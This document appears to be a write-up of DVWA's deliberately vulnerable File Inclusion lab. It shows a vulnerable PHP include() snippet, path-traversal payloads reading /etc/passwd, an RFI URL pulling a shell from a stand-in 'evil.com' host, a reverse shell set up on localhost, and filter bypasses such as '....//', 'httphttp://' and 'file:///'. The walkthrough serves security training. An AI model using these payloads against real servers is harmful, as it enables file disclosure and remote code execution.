# File Inclusion

File inclusion is a type of web vulnerability that allows an attacker to include files (local or remote) into a web application. This often happens due to insecure handling of user input in functions that include files, like PHP's `include()`, `require()`, `include_once()`, or `require_once()`.

There are two main types, Local File Inclusion (LFI) & Remote File Inclusion (RFI):

## Local File Inclusion (LFI)

LFI occurs when a web application allows users to include files that are already present on the server (i.e., local files).

#### For Example
```bash
<?php
    $page = $_GET['page'];
    include($page);
?>
```

An attacker can use `http://example.com/?page=../../../../etc/passwd` to exploit this. This will cause:
- Disclosure of sensitive server files.
- Code execution if log files or upload directories are included and contain executable code.
- Path traversal attacks.
<br><br>

## Remote File Inclusion (RFI)

RFI occurs when a web application includes files from a remote server due to the lack of input validation. With the same example code, attacker can use `http://example.com/?page=http://evil.com/shell.txt` to exploit, which lead to:
-	Remote Code Execution
-	Full System Compromise
-	Web Shell Access
<br><br>
---

## Low Difficulty

Here we have 3 php file included on the web application and able to read them respectively. The file 1 has the url of `?page=file1.php` and file 2 has the url of `?page=file2.php` and so on:









<br><br>

What if we try to insert a `file4.php`?

<br><br>

We can see that there is a hidden fourth php file and this is how a file inclusion vulnerability work.
<br><br>

### Searching Hidden Quotes

We can try something else. There is an objective of reading all the quotes from `../hackable/flags/fi.php`:

<br><br>

We can see that after include the directory, there is nothing showing up: 

<br><br>

Let’s try to add one more `../` to navigate 2 directories down.

<br><br>

Now we are able to find the hidden quotes.
<br><br>

### RFI

For RFI, we can demonstrate this with the use of reverse shell. Here I use the reverse shell php from the webshells directory, and set the IP as local host with port 1337:



<br><br>

Now we host a http server with the php file, then we set a listener on port 1337 for establishing reverse shell.





<br><br>

After including the http server URL with the shell.php file path into the browser's URL, we have established a reverse shell connection:


<br><br>

If this was a real server and somebody had this vulnerability on their actual server, we would now have the full access of the server as a low privilege user, and can further enumerate the server as well as escalate to privilege user
<br><br>

---

## Medium Difficulty

### Source Code

If we examine the source code of medium difficulty, we can see that the user input will be validated by stripping the characters like `http://`, `../`, `..\\` and more:

<br><br>

### Attempt

By using the previous method `../../`, it is failed to open stream:

<br><br>

### Solution

Since the code is designed to strip `../`, we can bypass this by adding another `../` together to make the characters into `….//….//`. This way, the code will strip the `../` inside `..//..//`, when combining together they will become `../../`:



<br><br>

We can now see the hidden quotes.
<br><br>

### RFI

Let's try the previous method from Low difficulty:



<br><br>

We can see that there is no reverse tcp connection established since the input is being validated by stripping the `http://` and `https://` characters. 
<br><br>

#### Solution

Using the same concept, we can easily bypass this by modifying the input into `Http` or `httphttp://`. Now the reverse tcp connection has been established for RFI:






<br><br>

---

## High Difficulty

### Source Code

The high difficulty further improve the validation by setting the name of the file should begin with the word `file` and the file should be `include.php`:

<br><br>

Using the previous method, it will show the file not found error. 

<br><br>

### Solution

To bypass this, we can use the file wrapper with triple slash method. Just like when we open the `README.md` file of DVWA as the screenshot below, it starts with `file:///`:

<br><br>

Similarly, if we use this file wrapper method, we will be able to see the hidden quotes now:

<br><br>

---

## Conclusion

This challenge highlights the danger of insecure file inclusion handling in web applications, which can lead to **information disclosure**, **remote code execution**, and full **system compromise**.

At **Low** difficulty, we successfully included hidden files and demonstrated both **Local File Inclusion (LFI)** and **Remote File Inclusion (RFI)** using a simple reverse shell technique.

At **Medium** difficulty, we bypassed basic blacklist filters (e.g., blocking `../` or `http://`) using clever encoding and character tricks.

At **High** difficulty, even with filename validation logic in place, we circumvented restrictions by abusing PHP's `file://` wrapper, allowing us to read local resources again.

This challenge illustrates how **input sanitization alone is insufficient**, and how attackers can chain seemingly harmless features into dangerous exploits.
<br><br>

### Skills Applied:

- Understanding of LFI and RFI vulnerabilities
- Exploiting `include()` logic in PHP-based apps
- Directory traversal and path manipulation
- Blacklist bypass techniques (e.g., `..//..//`, `httphttp://`)
- File wrapper abuse (`file:///`) to bypass filename checks
